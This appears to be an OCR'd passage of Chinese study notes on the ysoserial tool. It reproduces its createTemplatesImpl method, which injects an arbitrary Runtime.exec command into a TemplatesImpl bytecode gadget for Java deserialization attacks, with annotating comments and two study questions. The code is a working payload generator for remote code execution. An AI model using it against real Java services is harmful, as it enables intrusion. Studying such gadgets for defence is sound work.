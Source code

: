   ```java
  public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
      throws Exception {
      final T templates = tplClass.newInstance();
  
      // 将StubTransletPayload和Payload所需抽象父类放入ClassPool
      ClassPool pool = ClassPool.getDefault();
      pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
      pool.insertClassPath(new ClassClassPath(abstTranslet));
      
      // 获取StubTransletPayload的CtClass便于修改
      final CtClass clazz = pool.get(StubTransletPayload.class.getName());
      // 将攻击者输入的恶意指令拼接为Java语句
      String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
          command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
          "\");";
      // 将恶意Java语句插入CtClass的无参构造器中
      clazz.makeClassInitializer().insertAfter(cmd);
      // 将类名随机化便于多次攻击，避免因为类重名而攻击失败
      clazz.setName("ysoserial.Pwner" + System.nanoTime());
      // 为其赋予被攻击程序要检查的父类类型
      CtClass superC = pool.get(abstTranslet.getName());
      clazz.setSuperclass(superC);
      // 将其字节码导出
      final byte[] classBytes = clazz.toBytecode();
  
      // 通过反射将恶意类的字节码赋值给模板类中存储字节码的属性
      Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
          classBytes, ClassFiles.classAsBytes(Foo.class)
      });
  
      Reflections.setFieldValue(templates, "_name", "Pwnr");
      Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
      return templates;
  }
  ```

## 产生过的疑问

1. 为什么构造Payload时不在一开始就把name设置为outputProperties，而要在创建对象之后通过Setter去修改？
2. ysoserial是如何根据用户输入的command构造恶意Templates的？